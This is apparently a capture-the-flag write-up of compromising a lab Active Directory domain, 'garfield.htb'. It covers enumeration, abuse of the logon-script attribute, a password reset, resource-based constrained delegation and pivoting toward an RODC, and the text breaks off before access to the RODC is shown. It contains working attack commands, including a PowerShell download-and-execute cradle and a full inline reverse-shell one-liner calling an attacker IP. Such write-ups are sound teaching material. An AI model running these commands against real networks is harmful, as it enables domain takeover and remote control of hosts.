This box assumes a breach scenario with credentials j.arbuckle:Th1sD4mnC4t!@1978
as always we do a nmap scan
sudo nmap -sVC -oN hostScan -T3 -Pn -vv 10.129.83.70
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack ttl 127 Simple DNS Plus
88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-11-02 04:47:26Z)
135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack ttl 127
464/tcp open kpasswd5? syn-ack ttl 127
593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped syn-ack ttl 127
2179/tcp open vmrdp? syn-ack ttl 127
3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped syn-ack ttl 127
3389/tcp open ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2026-11-02T04:48:30+00:00; +8h00m05s from scanner time.
| rdp-ntlm-info:
| Target_Name: GARFIELD
| NetBIOS_Domain_Name: GARFIELD
| NetBIOS_Computer_Name: DC01
| DNS_Domain_Name: garfield.htb
| DNS_Computer_Name: DC01.garfield.htb
| DNS_Tree_Name: garfield.htb
| Product_Version: 10.0.17763
|_ System_Time: 2026-11-02T04:47:50+00:00
| ssl-cert: Subject: commonName=DC01.garfield.htb
| Issuer: commonName=DC01.garfield.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-01T04:43:50
so looks like we are dealing with an Active Directory Environment
Checking the credentials with nxc
nxc smb 10.129.83.70 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978'
SMB 10.129.83.70 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.129.83.70 445 DC01 [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978
lets also check with the other services aswell
nxc winrm 10.129.83.70 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978'
WINRM 10.129.83.70 5985 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:garfield.htb)
WINRM 10.129.83.70 5985 DC01 [-] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978
nxc rdp 10.129.83.70 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978'
RDP 10.129.83.70 3389 DC01 [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:garfield.htb) (nla:True)
RDP 10.129.83.70 3389 DC01 [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978
so looks like this user has access to smb and rdp , but before that lets go further and try to see if any shares can be read
nxc smb 10.129.83.70 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --shares
SMB 10.129.83.70 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.129.83.70 445 DC01 [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978
SMB 10.129.83.70 445 DC01 [*] Enumerated shares
SMB 10.129.83.70 445 DC01 Share Permissions Remark
SMB 10.129.83.70 445 DC01 ----- ----------- ------
SMB 10.129.83.70 445 DC01 ADMIN$ Remote Admin
SMB 10.129.83.70 445 DC01 C$ Default share
SMB 10.129.83.70 445 DC01 IPC$ READ Remote IPC
SMB 10.129.83.70 445 DC01 NETLOGON READ Logon server share
SMB 10.129.83.70 445 DC01 SYSVOL READ Logon server share
looks like these are standard shares but what is interesting is we found a printer.bat on the SYSVOL
also lets retrieve data using rushound-ce so we can run bloodhound and check the relationships
rusthound-ce --domain garfield.htb -n 10.129.83.70 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -z
and uploading the zip to the bloodhound web gui

no outbound edges, but we do notice the user is part of theIT SUPPORT group, so lets try using bloodyAD to enumerate what exactly can this user write
bloodyAD --host dc01.garfield.htb -d garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' get writable --detail
distinguishedName: CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb
scriptPath: WRITE
distinguishedName: DC=garfield.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=garfield,DC=htb
dnsNode: CREATE_CHILD
dnsZoneScopeContainer: CREATE_CHILD
distinguishedName: CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb
scriptPath: WRITE
So upon googling and reading more about the scriptPath attribute.
ScriptPath is the logon script attribute on a user object (LDAP display name Logon Script, ATT&CK T1037.001). When that user logs on interactively, Winlogon/GPSVC reads the value and executes that script as the logging-on user.
The value is not a free-form path in the normal case — it's a bare filename that the client resolves against the DC's logon-script share:
\\<DC>\NETLOGON\<scriptPath>
== C:\Windows\SYSVOL\sysvol\garfield.htb\scripts\<scriptPath>
== \\dc01.garfield.htb\SYSVOL\garfield.htb\scripts\<scriptPath>
WRITE from BloodyAD is a property-level ACE (WriteProperty on scriptPath only), not GenericWrite/GenericAll. So it doesn't let you reset the password, set an SPN, or write msDS-KeyCredentialLink. It lets you change exactly one thing: which logon script that user runs next time they log in.
If we circle back on the share enumeration we did notice that we have access to the SYSVOL share

so we need to test whether we can write in that scripts directory so that we could write the attribute of the users we found usingbloodyAD so they execute the script on startup

this confirms that we do have write on that specific directoryNow lets create a reverse powershell payload file and store it in a .bat which would execute a reverse shell
msfvenom -p cmd/windows/reverse_powershell LHOST=tun0 LPORT=4444 > printerDetect.bat

so now that we have generated our maliciousprinterDetect.bat and uploaded it, lets now write the attribute scriptPath on all the users we could find
bloodyAD --host 10.129.83.70 -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' set object 'CN=Liz Wilson,CN=Users,DC=garfield,DC=htb' scriptPath -v 'printerDetect.bat'
bloodyAD --host 10.129.83.70 -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' set object 'CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb' scriptPath -v 'printerDetect.bat'

now lets fire up the listener and wait to get a callback when one of the users start up their machines and executes our malicious scriptrlwrap nc -lvnp 4444
Now upon trying alot i didn't get a callback at all and looks like when checking the lastlogin attribute , its apparent that the user doesn't log in, but from the looks of it its somewhat of a mechanism. The main reason i probably did not get a callback is my payload automatically uses tun0 variable in the LHOST, which sometimes would cause an issue . Aswell sometimes when dealing with powershell scripts, you can't execute them unless u specify that u must bypass the ExecutionPolicy , aswell its a good idea to try it with an iwr(invoke web request) to see if u ever get a callback to your server which would mean u did indeed execute the script, so lets try and alter this a bit and see if we do get a callback
Recreating the printerDetect.bat Payload
first lets create the web server we will serve the payload on
python3 -m http.server 6666
.bat file which we will use to invoke the web server and extract our payload
@echo off
Powershell.exe -NoProfile -ExecutionPolicy bypass -Command "IEX(IWR http://10.10.16.102:6666/Invoke-ConPtyShell.ps1 -UseBasicParsing);Invoke-ConPtyShell 10.10.16.102 4444"
PAUSE
EXIT
The payload used was Invoke-ConPtyShell.ps1 .
Now after putting back the printerDetect.bat into the smb share , the mechanism of invoking it is by setting the script path
after some testing it sometimes failed, so i resorted back to the msf payload and adjusted the payload so that it becomes like so
powershell -w hidden -ExecutionPolicy bypass -c $a='10.10.16.102';$b=4444;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) { start-sleep -m 100; if ($osread.IsCompleted -and $osread.Result -ne 0) { $r=$os.BaseStream.EndRead($osread); $s.Write($ob,0,$r); $s.Flush(); $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null); } if ($esread.IsCompleted -and $esread.Result -ne 0) { $r=$es.BaseStream.EndRead($esread); $s.Write($eb,0,$r); $s.Flush(); $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null); } if ($s.DataAvailable) { $r=$s.Read($nb,0,$nb.Length); if ($r -lt 1) { break; } else { $str=$e.GetString($nb,0,$r); $is.write($str); } } if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) { break; } if ($p.ExitCode -ne $null) { break; }}

so we land in as the userl.wilson now lets check first if the machine is domain joined, which we can do by set user

since the variablesUSERDNSDOMAIN and USERDOMAIN are specified with our DC01 , hence this is indeed domain joined
Circling back to our bloodhound

we find thatl.wilson has ForceChangePassword on the l.wilson_adm user, so lets change the password through the windows foothold
$newpass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-ADAccountPassword -Identity l.wilson_adm -NewPassword $newpass -Reset

now lets test the credentials through nxcnxc smb 10.129.244.207 -u l.wilson_adm -p 'Password123!'

so now we could switch over to the userl.wilson_adm but first lets check through bloodhound what rights does this user have

also these are the groups the user can belong to
so since thel.wilson_adm is a member of Remote Management Users and Remote Desktop Users, we could potentially RDP into the user with the password we changed which was l.wilson_adm:Password123!
Now lets explore the Attack surface since we do have some proper chaining to do. Since l.wilson_adm is a member of TIER 1 which can add themselves to RODC Administrators , and it has the WriteAccountRestrictions ACE on the RODC01 Computer . We could potentially do what is called a RODC Golden Ticket attack
What is RODC
RODC(Read Only Domain Controller) is a solution that Microsoft introduced for physical locations that don’t have adequate security to host a Domain Controller but still require directory services for resources in those locations. A branch office is the classic use case.
RODC Management
As any Active Directory object, an RODC has an attribute named managedBy. Any user or group specified in the attribute has local administrative rights on the RODC. From an attacker point of view, this means that compromising an account listed in the managedBy attribute leads to an RODC admin access. And with sufficient rights to modify this attribute, an attacker can promote himself to RODC admin.
Authentication with an RODC
To authenticate a principal locally, the RODC must be allowed to retrieve his credentials. Only users, groups and computers that are in the msDS-RevealOnDemandGroup and not in msDS-NeverRevealGroup may have their credentials cached on the RODC to be used for future local authentication (in this case, their principal name IDs are added to its msDS-Revealed-List attribute). The attributes msDS-RevealOnDemandGroup and msDS-NeverRevealGroup define the Password Replication Policy of the RODC.
The default PRP (Password Replication Policy) specifies that no account passwords can be cached on any RODC, and certain accounts are explicitly denied from being cached on any RODC.
(Microsoft)
In case the RODC has cached the principal's credentials and thus, is able to authenticate it locally, it will issue a TGT. To do so, the RODC holds a derived version of the krbtgt key named krbtgt_XXXXX(where XXXXX is its random version number) and uses it to sign and encrypt the generated TGT. This krbtgt account's version number can also be found in its msDS-SecondaryKrbTgtNumber attribute.
The RODC computer account has reset rights on the account krbtgt_XXXXX's password.
You could enumerate the version number using bloodyAD
bloodyAD --host <DC IP> -d <domain> -u <user> -p <password> get search --filter '(name=krbtgt*)' --attr name,whenCreated,pwdLastSet,msDS-KeyVersionNumber
When the RODC generates the TGT, it indicates in the kvno field the version number of the key used to generate the ticket. With this TGT, it is possible to request a Service Ticket (ST) against the RODC or any accessible standard writable Domain Controller. Note that the PRP attributes (msDS-RevealOnDemandGroup / msDS-NeverRevealGroup) govern which credentials are cached on the RODC. writable DCs issue service tickets following normal authorization rules regardless of PRP membership.

So in short There are 5 key attributes on a RODC:
managedBy: This attribute identifies the group that administers the RODC. Since RODCs are considered to be less trusted than Domain Controllers, they shouldn’t be managed by Active Directory admins (DAs, etc). Often there’s a RODC specific admin group configured in this attribute, sometimes each RODC has a unique admin group.msDSReveal-OnDemandGroup: Contains the distinguished name (DN) of the Allowed List. Members of the Allowed List are permitted to replicate to the RODC.msDS-NeverRevealGroup: Points to the distinguished names of security principals that are denied replication to the RODC.msDS-RevealedList: List of security principals whose passwords have ever been replicated to the RODC.msDS-AuthenticatedToAccountList: This attribute contains a list of security principals in the local domain that have authenticated to the RODC.
Now how could this be exploited
Exploiting RODCs
In the context of RODCs, the term “compromise” could mean several things:
-
Elevated access to the RODC host
-
Credential access to the RODC computer account
-
Control of the RODC computer object in Active Directory
In the case of elevated access to the RODC host (1) or credential access to the RODC computer account (2), there is a path for domain dominance only if the RODC is permitted to “reveal” the credentials of a Tier Zero security principal.
In the case of control of the RODC computer object in Active Directory (3), there is a generalized path to domain dominance.
Generally the main 3 methods that could be used to exploit RODCs are:
1) RODC Golden Ticket
2) `Key List Attack
For more information check this article and this article
Now lets go back to our case and then explain the terminologies in which we will use to perform this attack.
Since our user l.wilson_adm has WriteAccountRestrictions over RODC01.garfield.htb computer, and can add themselves to the RODC Administrators . We could potentially perform a RODC Golden Ticket attack to impersonate the krbtgt_XXXX in the RODC01 so that we can request the TGT for the Administrator on the Domain Controller itself DC01 and from there request the TGS of the Administrator and use it to impersonate him.
Lets go over the chain, first lets add ourselves to the RODC Administrators group using bloodyAD
bloodyAD --host 10.129.244.207 -d garfield.htb -u l.wilson_adm -p 'Password123!' add groupMember "RODC Administrators" "l.wilson_adm"
[+] l.wilson_adm added to RODC Administrators
and then from there since we now have Administrative Access to the RODC we could enumerate the managedBy andmsDSReveal-OnDemandGroup,msDS-NeverRevealGroup,msDS-RevealedList
bloodyAD --host 10.129.244.207 -d garfield.htb -u l.wilson_adm -p 'Password123!' get object "CN=RODC01,OU=DOMAIN CONTROLLERS,DC=GARFIELD,DC=HTB"

so we find thekrbtgt_82425 which will be useful for obtaining the golden ticket. So now we want to get Access as the RDC01 Administrator so we can get the cached in tickets for the krbtgt_8425 so that we can create the golden ticket
If we circle back to the bloodhound
 we notice that
we notice that l.wilson_adm has WriteAccountRestrictions on the computer RDC01.garfield.htb , upon searching more this essentially allows us to write the Account Restrictions property set, which includes msDS-AllowedToActOnBehalfOfOtherIdentity which is the primitive condition to perform Resource Based Constrained Delegation(RBCD)
So in order to perform the RBCD Attack, we first need to create a computer we control to . Any domain user can create up to 10 machine accounts (ms-DS-MachineAccountQuota), and you need a principal you own to drive RBCD. We could do this using impacket-addcomputer.py
creating machine account
impacket-addcomputer garfield.htb/j.arbuckle:'Th1sD4mnC4t!@1978' -dc-ip 10.129.244.207 -computer-name ATTACKER$ -computer-pass 'Password234!'

and then now we want to write the msDS-AllowedToActOnBehalfOfOtherIdentity on the RDC01$ so that we can tell the KDC(Key Distribution Center) that the computer name ATTACKER$may impersonate any user to services on RODC01." It works because l.wilson_adm has WRITE on that object. We could perform this using impacket-rbcd.py
performing RBCD Delegation
impacket-rbcd garfield.htb/l.wilson_adm:'Password123!' -delegate-to 'RODC01$' -delegate-from 'ATTACKER$' -action write -dc-ip 10.129.244.207

and then now that we have configured that the ATTACKER$ can impersonate the RODC01$ and can request a TGS to impersonate the Administrator
impacket-getST garfield.htb/ATTACKER\$:'Password234!' -spn cifs/RODC01.garfield.htb -impersonate Administrator -dc-ip 10.129.244.207

getST does S4U2Self (ticket for ATTACKER$ as Administrator) + S4U2Proxy (ticket to cifs/RODC01 as Administrator). The KDC is DC01 and it can encrypt the ticket for RODC01$ because it has that machine account's key.
now that we have the ccache file, we could now use the ticket withpsexec to log into the RODC01 as SYSTEM since we are impersonating Administrator with his TGS , but since we don't know where this host lies in the internal network, we must first check where it is and how to pivot to it
Pivoting to RODC01
First we must establish the pivot, but we could check if an internal network is found by utilizing the reverse shell we got as l.wilson and do ipconfig /all

now lets useligolo to pivot and reach the internal network, In my case i logged in using l.wilson_adm through evil-winrm and then transferred the agent.exe to the host
evil-winrm -i garfield.htb -u 'l.wilson_adm' -p 'Password123!'

and on the attack host with theproxy

ok now lets perform a ping sweep usingnxc to see where the RODC01 host is residing
nxc smb 192.168.100.0/24

so the host is at192.168.100.2 now using the ccache ticket we can now just psexec into the host like so first lets change our KRB55CNAME to the ccache file in order to use Kerberos
export KRB5CCNAME=Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
we can test whether we are using the proper ticket using klist
